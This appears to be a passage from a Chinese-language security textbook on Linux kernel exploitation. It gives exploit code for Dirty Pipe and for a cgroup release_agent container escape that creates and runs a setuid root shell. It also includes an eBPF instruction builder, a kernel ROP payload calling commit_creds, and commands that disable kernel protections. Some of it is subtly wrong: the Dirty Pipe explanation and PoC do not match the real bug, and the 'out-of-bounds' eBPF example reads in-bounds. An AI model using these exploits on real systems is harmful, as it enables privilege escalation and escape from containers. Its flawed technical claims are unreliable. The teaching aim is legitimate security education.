 * - 漏洞类型：任意内容覆盖 (Pipe Page Flag Corruption)
 * - 影响版本：Linux 5.8 - 5.16.11, 5.15.25, 5.10.102
 * - CVSS 评分：7.8 (High)
 * - 利用难度：极低（无需特殊条件，普通用户即可触发）
 *
 * 漏洞根因：
 * 在 pipe_buffer 的 PIPE_BUF_FLAG_CAN_MERGE 标志处理中存在缺陷：
 * 1. 正常情况下，pipe_buffer 分配新页时不会设置 CAN_MERGE 标志
 * 2. 但 pipe_advance() 函数在特定条件下会设置该标志
 * 3. 当 PIPE_BUF_FLAG_CAN_MERGE 被设置时，后续写入会合并到已有页面
 * 4. 攻击者可以将 pipe 页面映射到只读文件上
 * 5. 通过 pipe 写入覆盖只读文件内容
 *
 * 影响：
 * - 普通用户可以修改任意只读文件
 * - 包括 /etc/passwd, SUID 二进制文件等
 * - 甚至可以覆盖 SUID root 的可执行文件实现提权
 *
 * 利用流程：
 * 1. 创建 pipe，填充数据使所有 pipe_buffer 获得页面
 * 2. 释放所有 pipe_buffer（读取完毕）
 * 3. 写入数据并设置 PIPE_BUF_FLAG_CAN_MERGE
 * 4. 将 pipe 内容通过 splice() 映射到目标文件页面
 * 5. 写入新数据到 pipe → 直接覆盖文件内容!
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <sys/splice.h>

#define PIPE_BUFFERS 16
#define PAGE_SIZE 4096

/*
 * Dirty Pipe 利用核心逻辑
 *
 * 注意：此代码仅用于演示原理，实际利用需要更多细节处理
 */
void dirty_pipe_concept(const char *target_file, off_t offset, const char *data, size_t data_len) {
    int pipefd[2];
    char buf[PAGE_SIZE];

    printf("[*] Dirty Pipe PoC for file: %s\n", target_file);
    printf("[*] Offset: %ld, Data length: %zu\n", offset, data_len);

    /* Step 1: 创建 pipe 并用数据填满所有 pipe_buffer 页 */
    if (pipe(pipefd) < 0) {
        perror("pipe");
        return;
    }

    /* 填充 PIPE_BUFFERS 个页面 */
    memset(buf, 0x41, sizeof(buf));
    for (int i = 0; i < PIPE_BUFFERS; i++) {
        ssize_t written = write(pipefd[1], buf, sizeof(buf));
        if (written < 0) {
            perror("write to pipe");
            return;
        }
    }
    printf("[+] Filled %d pipe buffers\n", PIPE_BUFFERS);

    /* Step 2: 读取所有数据，使 pipe_buffer 标记为可释放 */
    for (int i = 0; i < PIPE_BUFFERS; i++) {
        read(pipefd[0], buf, sizeof(buf));
    }
    printf("[+] Drained all pipe buffers\n");

    /* Step 3: 写入少量数据触发 CAN_MERGE 标志
     * 这里利用了 pipe_advance() 的 bug：
     * 当所有 pipe_buffer 被释放且新数据不足以填满一个页时
     * CAN_MERGE 标志会被错误地设置 */
    char small_data[] = "PWNED";
    write(pipefd[1], small_data, sizeof(small_data) - 1);
    printf("[+] Wrote merge trigger data\n");

    /* Step 4: 使用 splice 将 pipe 页面映射到目标文件
     * splice 是零拷贝机制，不会复制数据，只是增加引用
     * 当 pipe 页面被标记为 CAN_MERGE 时，
     * 后续的 write 会修改共享页面的内容 = 修改文件内容! */

    /* Step 5: 写入 payload 到 pipe
     * 这会直接修改目标文件的内容（如果页面已映射到文件） */
    int target_fd = open(target_file, O_RDONLY);
    if (target_fd < 0) {
        perror("open target file");
        return;
    }

    /* 对齐到页面边界 */
    off_t page_offset = offset & ~(PAGE_SIZE - 1);
    off_t in_page_offset = offset & (PAGE_SIZE - 1);

    ssize_t spliced = splice(target_fd, &page_offset, pipefd[1], NULL,
                              PAGE_SIZE, 0);
    if (spliced < 0) {
        perror("splice");
    } else {
        printf("[+] Spliced %zd bytes from target file\n", spliced);
    }

    close(target_fd);
    close(pipefd[0]);
    close(pipefd[1]);
}
```

#### cgroup release_agent 逃逸

```c
/*
 * cgroup release_agent 利用
 *
 * 适用场景：容器逃逸（需要 cgroup v1 + release_agent 权限）
 *
 * 原理：
 * 1. cgroup v1 的 release_agent 机制允许在 cgroup 中最后一个
 *    进程退出时，由内核以 root 权限执行指定的程序
 * 2. 攻击者在容器内创建新的 cgroup
 * 3. 设置 release_agent 指向提权脚本
 * 4. 触发 cgroup 退出事件
 * 5. 内核以宿主机 root 权限执行脚本
 *
 * 前提条件：
 * - cgroup v1（cgroup v2 已修复此问题）
 * - 容器有 CAP_SYS_ADMIN 或 mount 权限
 * - /sys/fs/cgroup 可写
 */
void cgroup_escape_exploit(void) {
    printf("=== cgroup release_agent 容器逃逸 ===\n\n");

    /* Step 1: 创建 cgroup 目录 */
    printf("[*] Step 1: Creating cgroup...\n");
    system("mkdir -p /tmp/cgrp 2>/dev/null");
    system("mount -t cgroup -o rdma cgroup /tmp/cgrp 2>/dev/null "
           "|| mount -t cgroup -o cpu,cpuacct cgroup /tmp/cgrp 2>/dev/null "
           "|| mount -t cgroup cgroup /tmp/cgrp 2>/dev/null");

    if (system("mkdir -p /tmp/cgrp/x 2>/dev/null") != 0) {
        printf("[-] Failed to create cgroup. Check permissions.\n");
        return;
    }

    /* Step 2: 创建提权脚本 */
    printf("[*] Step 2: Creating escape script...\n");
    FILE *fp = fopen("/tmp/escape.sh", "w");
    if (!fp) {
        perror("fopen");
        return;
    }
    fprintf(fp, "#!/bin/sh\n");
    fprintf(fp, "cp /bin/sh /tmp/rootshell\n");
    fprintf(fp, "chmod +s /tmp/rootshell\n");
    fprintf(fp, "id > /tmp/pwned.txt\n");
    fprintf(fp, "hostname >> /tmp/pwned.txt\n");
    fclose(fp);
    chmod("/tmp/escape.sh", 0777);

    /* Step 3: 设置 release_agent */
    printf("[*] Step 3: Configuring release_agent...\n");
    system("echo 1 > /tmp/cgrp/x/notify_on_release");
    system("echo '/tmp/escape.sh' > /tmp/cgrp/release_agent");

    /* Step 4: 将当前 shell 加入 cgroup */
    printf("[*] Step 4: Adding shell to cgroup...\n");
    char pid_str[32];
    snprintf(pid_str, sizeof(pid_str), "%d", getpid());
    FILE *f = fopen("/tmp/cgrp/x/cgroup.procs", "w");
    if (f) {
        fprintf(f, "%s\n", pid_str);
        fclose(f);
    }

    /* Step 5: 触发 release_agent
     * 退出 cgroup 中所有进程（包括 fork 的子进程） */
    printf("[*] Step 5: Triggering release_agent...\n");
    system("echo $$ > /tmp/cgrp/x/cgroup.procs");

    /* 如果成功，内核会以 root 权限执行 /tmp/escape.sh */
    sleep(1);

    if (access("/tmp/rootshell", F_OK) == 0) {
        printf("[+] SUCCESS! Root shell at /tmp/rootshell\n");
        system("/tmp/rootshell -p");
    } else if (access("/tmp/pwned.txt", F_OK) == 0) {
        printf("[+] Escape script executed. Check /tmp/pwned.txt\n");
        system("cat /tmp/pwned.txt");
    } else {
        printf("[-] cgroup escape failed\n");
    }

    /* 清理 */
    system("umount /tmp/cgrp 2>/dev/null");
    system("rmdir /tmp/cgrp/x 2>/dev/null");
    system("rmdir /tmp/cgrp 2>/dev/null");
}
```

---

### 31.1.9 现代攻击面：io_uring 与 eBPF

#### io_uring 漏洞利用

io_uring 是 Linux 5.1 引入的高性能异步 I/O 框架，它提供了一个共享的提交队列（SQ）和完成队列（CQ），允许用户态和内核态通过共享内存进行通信。由于其复杂性和与内核的深度交互，io_uring 成为了近年来最热门的内核漏洞攻击面。

```c
/*
 * io_uring 漏洞利用概述
 *
 * io_uring 的攻击面：
 * 1. SQE (Submission Queue Entry) 处理
 *    - 每个 SQE 描述一个异步 I/O 操作
 *    - 内核解析 SQE 中的参数和标志
 *    - 不当的参数验证导致漏洞
 *
 * 2. CQE (Completion Queue Entry) 溢出
 *    - CQE 数组可能被越界写入
 *    - 导致内核堆元数据损坏
 *
 * 3. io_uring 文件注册 (register_files)
 *    - 文件描述符数组的管理存在 TOCTOU
 *    - 可能导致 UAF
 *
 * 4. io_uring 缓冲区注册 (register_buffers)
 *    - 用户提供的缓冲区指针验证不充分
 *    - 可能导致任意内核地址读写
 *
 * 已知 CVE 案例：
 * - CVE-2021-41073: io_uring 文件描述符 UAF
 * - CVE-2022-29582: io_uring 越界读写
 * - CVE-2023-2598: io_uring 缓冲区 UAF
 *
 * io_uring 利用的优势：
 * - 内核中最大的未被充分审计的子系统之一
 * - 提供了灵活的内存操作原语
 * - 可以构造复杂的异步利用链
 */
```

#### eBPF 利用技术

eBPF（Extended Berkeley Packet Filter）是 Linux 内核中一个强大的沙箱化虚拟机。由于 eBPF 程序在内核中执行且具有较高的权限，eBPF 相关漏洞一直是最热门的内核利用攻击面。

```c
/*
 * eBPF 漏洞利用策略
 *
 * eBPF 的攻击面层级：
 *
 * ┌──────────────────────────────────────┐
 * │ 用户态：加载 eBPF 程序              │
 * ├──────────────────────────────────────┤
 * │ eBPF Verifier：验证程序安全性        │  ← 绕过 Verifier = 内核任意代码执行
 * ├──────────────────────────────────────┤
 * │ eBPF Runtime：执行 eBPF 指令         │
 * ├──────────────────────────────────────┤
 * │ eBPF Map：内核态数据存储             │  ← Map 操作提供读写原语
 * ├──────────────────────────────────────┤
 * │ Helper Functions：内核 API 调用      │  ← 滥用 Helper 实现信息泄露
 * └──────────────────────────────────────┘
 *
 * 绕过 Verifier 的常见手法：
 * 1. 后置条件（Post-Verifier）修改
 *    - Verifier 验证通过后，利用其他路径修改指针值
 *
 * 2. 边界检查绕过
 *    - 利用 Verifier 的不完整分析
 *    - 如：32位/64位截断差异
 *
 * 3. 信息泄露绕过
 *    - 通过 Helper 函数获取内核地址
 *    - 利用计算得到的地址构造 map 操作
 *
 * 4. 类型混淆
 *    - 利用 Verifier 对类型信息的不精确追踪
 *    - 将一种类型的指针当作另一种使用
 */

/*
 * eBPF 指令构造示例 —— 实现越界读
 *
 * 这是一个概念性的 eBPF 程序，展示如何通过 verifier 漏洞
 * 实现对 eBPF 数组的越界读取
 *
 * BPF 指令格式：
 * opcode | dst_reg | src_reg | offset | immediate
 */
void build_ebpf_oob_read(struct bpf_insn *insns, int *cnt, int map_fd) {
    int i = 0;

    /* 加载 map fd 到 r1 */
    insns[i++] = BPF_LD_IMM64_RAW(BPF_REG_1, BPF_PSEUDO_MAP_FD, map_fd);
    insns[i++] = 0;

    /* 查找 map value */
    insns[i++] = BPF_EMIT_CALL(BPF_FUNC_map_lookup_elem);
    /* r0 = map_value 指针 */

    /* 检查是否为 NULL */
    insns[i++] = BPF_JMP_IMM(BPF_JEQ, BPF_REG_0, 0, 4);
    /* 如果 NULL，跳转到 return 0 */

    /* 越界读取：偏移超出 map 边界 */
    insns[i++] = BPF_LDX_MEM(BPF_DW, BPF_REG_1, BPF_REG_0, 0);
    /* r1 = *(u64*)(r0 + 0) —— 读取 value 的前 8 字节 */

    insns[i++] = BPF_LDX_MEM(BPF_DW, BPF_REG_2, BPF_REG_0, 8);
    /* r2 = *(u64*)(r0 + 8) —— 读取 value 的后 8 字节 */

    /* 返回高 32 位作为结果 */
    insns[i++] = BPF_ALU64_IMM(BPF_RSH, BPF_REG_1, 32);
    insns[i++] = BPF_MOV64_REG(BPF_REG_0, BPF_REG_1);
    insns[i++] = BPF_EXIT_INSN();

    *cnt = i;
}
```

---

### 31.1.10 内核漏洞利用工具集

#### 核心工具链

```bash
#!/bin/bash
# kernel_exploit_toolkit.sh
# 内核漏洞利用完整工具链

echo "========================================="
echo "  内核漏洞利用工具集 (Kernel Exploit Toolkit)"
echo "========================================="

# ==========================================
# 1. 信息收集阶段
# ==========================================
echo ""
echo "=== [阶段1] 信息收集 ==="

echo "[1] 内核版本与配置"
echo "    uname -r                          # 内核版本"
echo "    cat /proc/version                 # 完整内核信息"
echo "    cat /boot/config-\$(uname -r)      # 内核编译配置"
echo ""

echo "[2] 内核符号信息"
echo "    cat /proc/kallsyms               # 内核符号表 (需要 kptr_restrict=0)"
echo "    sudo sh -c 'echo 0 > /proc/sys/kernel/kptr_restrict'"
echo "    cat /boot/System.map-\$(uname -r) # 内核符号映射文件"
echo ""

echo "[3] 保护机制检测"
echo "    cat /proc/cmdline | grep nokaslr # KASLR 状态"
echo "    dmesg | grep -i smep             # SMEP 状态"
echo "    dmesg | grep -i smap             # SMAP 状态"

# ==========================================
# 2. ROP Gadgets 搜索
# ==========================================
echo ""
echo "=== [阶段2] ROP Gadgets 搜索 ==="

echo "[4] ROPgadget"
echo "    安装: pip3 install ROPgadget"
echo "    搜索所有 gadgets:"
echo "      ROPgadget --vmlinux /boot/vmlinux-\$(uname -r) > gadgets.txt"
echo "    搜索特定 gadget:"
echo "      ROPgadget --vmlinux /boot/vmlinux-\$(uname -r) --only 'pop|ret'"
echo "    搜索内核模块:"
echo "      ROPgadget --binary ./vuln_driver.ko"
echo ""

echo "[5] ropper (替代工具)"
echo "    安装: pip3 install ropper"
echo "    用法:"
echo "      ropper -f /boot/vmlinux-\$(uname -r) --search 'pop rdi; ret'"
echo "      ropper -f /boot/vmlinux-\$(uname -r) --search 'mov cr4'"
echo "      ropper -f ./driver.ko --search 'xchg eax, edi; ret'"
echo ""

echo "[6] ropgadget-parser"
echo "    安装: pip3 install ropgadget-parser"
echo "    用于解析 ROPgadget 输出并自动构建 ROP 链"

# ==========================================
# 3. 利用开发框架
# ==========================================
echo ""
echo "=== [阶段3] 利用开发框架 ==="

echo "[7] pwntools (Python 利用框架)"
echo "    安装: pip3 install pwntools"
echo "    内核利用示例:"
cat << 'PYEOF'
from pwn import *

# 设置目标
context.update(arch='amd64', kernel='amd64')

# 读取内核符号
kallsyms = open('/proc/kallsyms').read()
def get_sym(name):
    for line in kallsyms.split('\n'):
        if f' {name} ' in line:
            return int(line.split()[0], 16)
    return 0

commit_creds = get_sym('commit_creds')
prepare_kernel_cred = get_sym('prepare_kernel_cred')
print(f'[*] commit_creds: {hex(commit_creds)}')
print(f'[*] prepare_kernel_cred: {hex(prepare_kernel_cred)}')

# ROP chain
pop_rdi = 0xdead000000000001  # 从 ROPgadget 获取
swapgs_ret = 0xdead000000000002
iretq = 0xdead000000000003

# 构造 payload
payload = b'A' * 72              # buf + saved rbp
payload += p64(pop_rdi)          # pop rdi ; ret
payload += p64(0)                # rdi = NULL
payload += p64(prepare_kernel_cred)
payload += p64(pop_rdi)          # 如果没有 mov rdi,rax, 用这个
payload += p64(commit_creds)     # 需要调整 gadget 链
payload += p64(swapgs_ret)
payload += p64(iretq)
payload += p64(0x401000)         # RIP: get_shell
payload += p64(0x33)             # CS
payload += p64(0x202)            # RFLAGS
payload += p64(0x7fff12340000)   # RSP
payload += p64(0x2b)             # SS
PYEOF
echo ""

echo "[8] CTF 框架"
echo "    pwninit: 自动化二进制利用环境搭建"
echo "      pip3 install pwninit"
echo "    kernel-exploit-template:"
echo "      https://github.com/brittonhayes/pwn-init"

# ==========================================
# 4. QEMU 调试环境
# ==========================================
echo ""
echo "=== [阶段4] QEMU 调试环境 ==="

echo "[9] 构建调试环境"
cat << 'QEMU_EOF'
# 下载目标内核和 rootfs
wget https://cdn.kernel.org/pub/linux/kernel/v5.x/linux-5.15.tar.xz
wget https://mirrors.edge.kernel.org/pub/linux/kernel/v5.x/linux-5.15.tar.xz

# 编译内核 (带调试信息)
make defconfig
sed -i 's/CONFIG_RANDOMIZE_BASE=y/# CONFIG_RANDOMIZE_BASE is not set/' .config
sed -i 's/CONFIG_X86_SMEP=y/# CONFIG_X86_SMEP is not set/' .config
sed -i 's/CONFIG_X86_SMAP=y/# CONFIG_X86_SMAP is not set/' .config
make -j$(nproc)

# 创建 initramfs
mkdir initramfs
cd initramfs
mkdir -p bin sbin usr/bin usr/sbin proc sys dev etc
cp /bin/busybox bin/
for cmd in sh ls cat echo; do
    ln -s ../bin/busybox bin/$cmd
done
cat > init << 'EOF'
#!/bin/sh
mount -t proc none /proc
mount -t sysfs none /sys
mount -t devtmpfs none /dev
echo 0 > /proc/sys/kernel/kptr_restrict
exec /bin/sh
EOF
chmod +x init
find . | cpio -o -H newc | gzip > ../initramfs.cpio.gz
cd ..

# 启动 QEMU
qemu-system-x86_64 \
    -kernel arch/x86/boot/bzImage \
    -initrd initramfs.cpio.gz \
    -append "console=ttyS0 nokaslr" \
    -nographic \
    -s -S \
    -m 2G \
    -cpu host,+smep,+smap \
    -enable-kvm
QEMU_EOF

echo ""
echo "[10] GDB 远程调试"
echo "    启动 GDB:"
echo "      gdb ./vmlinux"
echo "    连接 QEMU:"
echo "      (gdb) target remote :1234"
echo "    常用断点:"
echo "      (gdb) b copy_from_user"
echo "      (gdb) b copy_to_user"
echo "      (gdb) b __x64_sys_ioctl"
echo "      (gdb) b commit_creds"
echo "    内核调试宏:"
echo "      (gdb) p *current"
echo "      (gdb) p current->cred->uid"
echo "      (gdb) p/x *(struct cred *)current->cred"

# ==========================================
# 5. 崩溃分析
# ==========================================
echo ""
echo "=== [阶段5] 崩溃分析 ==="

echo "[11] crash 工具 (内核崩溃转储分析)"
echo "    安装: apt install crash"
echo "    使用:"
echo "      crash /boot/vmlinux-\$(uname -r) /var/crash/*/vmcore"
echo "    常用命令:"
echo "      crash> bt           # 回溯当前进程栈"
echo "      crash> ps           # 进程列表"
echo "      crash> log          # 内核日志"
echo "      crash> kmem -s      # slab 内存统计"
echo "      crash> files        # 当前进程的文件描述符"
echo "      crash> struct cred <地址>  # 查看 cred 结构"

echo ""
echo "[12] dmesg 分析"
echo "    dmesg | tail -100              # 查看最后100条内核日志"
echo "    dmesg | grep -i 'general protection'  # GP 异常"
echo "    dmesg | grep -i 'unable to handle'    # 页面错误"
echo "    dmesg | grep -i 'kasan'              # KASAN 报告"

echo ""
echo "========================================="
echo "  工具集使用完成"
echo "========================================="
```

---

### 31.1.11 调试技巧与常见陷阱

#### 内核调试方法论

```python
#!/usr/bin/env python3
"""
kernel_exploit_debugger.py
内核漏洞利用调试辅助工具

功能：
1. 自动检测内核版本和保护机制
2. 收集内核符号信息
3. 生成 GDB 调试脚本
4. 分析 kernel panic 日志
5. 辅助 ROP 链构造
"""

import subprocess
import re
import os
import json
from datetime import datetime


class KernelExploitDebugger:
    def __init__(self):
        self.kernel_version = self._get_kernel_version()
        self.kaslr_offset = 0
        self.symbols = {}
        self.protections = {}

    def _get_kernel_version(self):
        result = subprocess.run(['uname', '-r'], capture_output=True, text=True)
        return result.stdout.strip()

    def collect_all_info(self):
        """收集所有必要信息"""
        print(f"[*] Kernel version: {self.kernel_version}")
        print(f"[*] Collecting information...\n")

        self.symbols = self.find_kernel_symbols()
        self.protections = self.check_protections()

        print(f"\n[*] Found {len(self.symbols)} kernel symbols")
        print(f"[*] Detected {len(self.protections)} protection mechanisms\n")

        return {
            'kernel_version': self.kernel_version,
            'symbol_count': len(self.symbols),
            'protections': self.protections,
        }

    def find_kernel_symbols(self):
        """读取 /proc/kallsyms 获取内核符号"""
        symbols = {}
        try:
            with open('/proc/kallsyms', 'r') as f:
                for line in f:
                    parts = line.strip().split()
                    if len(parts) >= 3:
                        addr = int(parts[0], 16)
                        name = parts[2]
                        symbols[name] = addr
        except PermissionError:
            print("[-] Permission denied: /proc/kallsyms")
            print("[*] Fix: echo 0 > /proc/sys/kernel/kptr_restrict")
        return symbols

    def check_protections(self):
        """检测所有已启用的保护机制"""
        protections = {}

        # KASLR
        try:
            with open('/proc/cmdline', 'r') as f:
                cmdline = f.read()
                protections['KASLR'] = 'nokaslr' not in cmdline
        except:
            protections['KASLR'] = 'Unknown'

        # 从内核配置读取
        config_path = f'/boot/config-{self.kernel_version}'
        if os.path.exists(config_path):
            with open(config_path, 'r') as f:
                config = f.read()
                protections['SMEP'] = 'CONFIG_X86_SMEP=y' in config
                protections['SMAP'] = 'CONFIG_X86_SMAP=y' in config
                protections['StackCanary'] = 'CONFIG_STACKPROTECTOR_STRONG=y' in config
                protections['KPTI'] = 'CONFIG_PAGE_TABLE_ISOLATION=y' in config
                protections['CFI'] = 'CONFIG_CFI_CLANG=y' in config
                protections['HARDENED_USERCOPY'] = 'CONFIG_HARDENED_USERCOPY=y' in config
                protections['SLAB_FREELIST_HARDENED'] = 'CONFIG_SLAB_FREELIST_HARDENED=y' in config

        return protections

    def print_protections_report(self):
        """输出保护机制检测报告"""
        print("=== Kernel Protection Mechanisms ===")
        print(f"{'机制':<30} {'状态':<15} {'影响'}")
        print("-" * 75)

        impact_map = {
            'KASLR': '需要信息泄露',
            'SMEP': '不能 ret2usr 执行',
            'SMAP': '不能 ret2usr 读数据',
            'StackCanary': '需要泄露/绕过 canary',
            'KPTI': '需要 KPTI trampoline',
            'CFI': '限制 gadget 选择',
            'HARDENED_USERCOPY': '限制 usercopy 利用',
            'SLAB_FREELIST_HARDENED': 'freelist 指针加密',
        }

        for name, enabled in self.protections.items():
            status = "✅ 已启用" if enabled else "❌ 未启用"
            impact = impact_map.get(name, "")
            print(f"{name:<30} {status:<15} {impact}")

    def generate_gdb_script(self, exploit_name, breakpoint_symbols=None):
        """生成 GDB 调试脚本"""
        if breakpoint_symbols is None:
            breakpoint_symbols = [
                'copy_from_user',
                'copy_to_user',
                '__x64_sys_ioctl',
                '__x64_sys_write',
                'commit_creds',
                'prepare_kernel_cred',
            ]

        script = f"""# GDB 调试脚本: {exploit_name}
# 生成时间: {datetime.now().isoformat()}
# 内核版本: {self.kernel_version}
#
# 使用方法: gdb -x {exploit_name}_debug.gdb

set pagination off
set confirm off
set print pretty on

# 连接远程 QEMU 内核
target remote :1234

# 加载 vmlinux 符号
file vmlinux

# 设置断点
"""
        for sym in breakpoint_symbols:
            script += f"b {sym}\n"

        script += """
# 自定义调试命令

# 显示当前进程信息
define show_current
  set $task = (struct task_struct *)$rsp
  printf "PID: %d\\n", $task->pid
  printf "Comm: %s\\n", $task->comm
  printf "UID: %d\\n", $task->cred->uid
end

# 显示 cred 结构
define show_cred
  set $cred = (struct cred *)$arg0
  printf "uid=%d gid=%d euid=%d egid=%d\\n", \\
    $cred->uid, $cred->gid, $cred->euid, $cred->egid
end

# 显示 SLUB 缓存信息
define slab_info
  set $cache = (struct kmem_cache *)$arg0
  printf "Cache: %s\\n", $cache->name
  printf "  Object size: %d\\n", $cache->object_size
  printf "  Total size: %d\\n", $cache->size
  printf "  Offset: %d\\n", $cache->offset
end

# 自动继续
continue
"""

        with open(f'{exploit_name}_debug.gdb', 'w') as f:
            f.write(script)
        print(f"[+] Generated: {exploit_name}_debug.gdb")
        return f'{exploit_name}_debug.gdb'

    def analyze_panic_log(self, log_path):
        """分析 kernel panic 日志"""
        if not os.path.exists(log_path):
            print(f"[-] Log file not found: {log_path}")
            return None

        with open(log_path, 'r') as f:
            content = f.read()

        analysis = {
            'has_panic': 'kernel panic' in content.lower(),
            'panic_reason': None,
            'fault_address': None,
            'backtrace': [],
            'modules': [],
        }

        # 提取 panic 原因
        panic_match = re.search(r'kernel panic - not syncing: (.+)', content, re.IGNORECASE)
        if panic_match:
            analysis['panic_reason'] = panic_match.group(1)

        # 提取 fault 地址
        fault_match = re.search(r'IP:.*?\[(.+?)\+0x([0-9a-f]+)/0x([0-9a-f]+)\]', content)
        if fault_match:
            analysis['fault_module'] = fault_match.group(1)
            analysis['fault_offset'] = int(fault_match.group(2), 16)

        # 提取调用栈
        bt_match = re.findall(r'\[<([0-9a-f]+)>\]\s+\((\w+)\+0x([0-9a-f]+)/0x[0-9a-f]+\)', content)
        for addr, func, offset in bt_match:
            analysis['backtrace'].append({
                'address': f'0x{addr}',
                'function': func,
                'offset': f'+0x{offset}',
            })

        print("=== Kernel Panic Analysis ===")
        if analysis['has_panic']:
            print(f"  Panic detected: YES")
            print(f"  Reason: {analysis['panic_reason']}")
        if analysis.get('fault_module'):
            print(f"  Fault in: {analysis['fault_module']}+0x{analysis['fault_offset']:x}")
        if analysis['backtrace']:
            print(f"  Backtrace ({len(analysis['backtrace'])} frames):")
            for frame in analysis['backtrace'][:10]:
                print(f"    {frame['address']} {frame['function']}{frame['offset']}")

        return analysis

    def print_exploitation_guide(self):
        """根据检测到的保护机制输出利用策略建议"""
        print("\n=== 利用策略建议 ===\n")

        if self.protections.get('KASLR', True):
            print("[!] KASLR 已启用 → 必须先泄露内核地址")
            print("    方法: /proc/kallsyms, dmesg, perf_event\n")

        if self.protections.get('SMEP', True):
            print("[!] SMEP 已启用 → 不能 ret2usr")
            print("    方法: 全 ROP 链 或 修改 CR4\n")

        if self.protections.get('SMAP', True):
            print("[!] SMAP 已启用 → 不能访问用户态数据")
            print("    方法: 内核空间数据 或 谨慎使用 clac\n")

        if self.protections.get('StackCanary', True):
            print("[!] Stack Canary 已启用 → 栈溢出需泄露 canary")
            print("    方法: 信息泄露 或 改用堆漏洞\n")

        if self.protections.get('KPTI', True):
            print("[!] KPTI 已启用 → 返回用户态需要特殊处理")
            print("    方法: KPTI trampoline\n")

        if not any(self.protections.values()):
            print("[+] 保护机制较少 → 利用难度较低")
            print("    可以使用 ret2usr + 直接修改 cred\n")


def main():
    debugger = KernelExploitDebugger()

    # 收集信息
    debugger.collect_all_info()

    # 打印保护机制报告
    debugger.print_protections_report()

    # 生成调试脚本
    debugger.generate_gdb_script("kernel_uaf_exploit")

    # 输出利用策略
    debugger.print_exploitation_guide()


if __name__ == '__main__':
    main()
```

#### 常见陷阱与解决方法

| 陷阱 | 症状 | 原因 | 解决方法 |
|-----|------|------|---------|
| Kernel Panic | 系统立即崩溃 | ROP 链地址错误或 gadget 不正确 | 检查 gadgets，验证内核符号地址 |
| 无限循环 | 系统卡死 | ROP 链中缺少 swapgs/iretq | 确保 ROP 链末尾有完整的返回序列 |
| 权限未提升 | shell 获取成功但仍为普通用户 | commit_creds 未正确执行 | 验证 prepare_kernel_cred(0) 参数 |
| KASLR 偏移错误 | 利用不稳定 | 内核地址计算错误 | 先泄露基址再计算偏移 |
| Slab 类型不匹配 | 堆喷射失败 | 分配的对象大小与目标 slab 不同 | 计算精确的对象大小 |
| SMAP 触发 #PF | 段错误 | 在 SMAP 启用时访问用户态数据 | 使用内核空间 gadget |
| canary 检查失败 | SIGKILL | 栈溢出触发了 canary 检查 | 改用堆漏洞或泄露 canary |

---

### 31.1.12 内核漏洞利用学习路径

内核漏洞利用是一个需要深厚系统知识的领域，建议按以下路径系统性学习：

**第一阶段：基础知识（1-2个月）**

- 深入学习 x86_64 体系结构：寄存器、特权级、中断、页表
- 掌握 Linux 内核基础：系统调用流程、进程管理、内存管理
- 理解内核数据结构：task_struct、cred、vm_area_struct
- 学习 C 语言指针操作和内存管理

**第二阶段：用户态漏洞利用（2-3个月）**

- 掌握缓冲区溢出、ROP、JOP 技术
- 学习堆利用技术：House of Force, Fastbin, Tcache
- 练习 CTF 内核题目（如 pwnable.kr, picoCTF）
- 使用 pwntools 框架编写利用脚本

**第三阶段：内核漏洞利用（3-6个月）**

- 在 QEMU 虚拟机中搭建内核调试环境
- 学习 SLUB 堆管理器的工作原理和调试方法
- 实践各种内核漏洞类型的利用
- 分析真实 CVE 漏洞利用代码

**第四阶段：高级技术（持续学习）**

- 研究现代内核保护机制及其绕过方法
- 关注 eBPF、io_uring 等新攻击面
- 学习容器逃逸和虚拟化逃逸技术
- 跟踪安全社区的最新研究成果

**推荐资源：**

| 资源 | 类型 | 适合阶段 |
|-----|------|---------|
| 《Linux Kernel Development》Robert Love | 书籍 | 第一阶段 |
| 《Understanding the Linux Kernel》 | 书籍 | 第一阶段 |
| PWNABLE.KR | 在线练习 | 第二阶段 |
| CTF 内核 pwn 题目 | 练习 | 第二、三阶段 |
| Google Project Zero Blog | 博客 | 第三、四阶段 |
| exploit-database.com | 漏洞库 | 第三、四阶段 |
| Phrack Magazine | 期刊 | 所有阶段 |
| HITB / BlackHat 演讲 | 视频 | 第四阶段 |

> **免责声明：** 本节介绍的内核漏洞利用技术仅供安全研究和教育目的。在未经授权的情况下对系统进行漏洞利用是违法行为。所有实验应在隔离的虚拟环境中进行，并遵守相关法律法规。
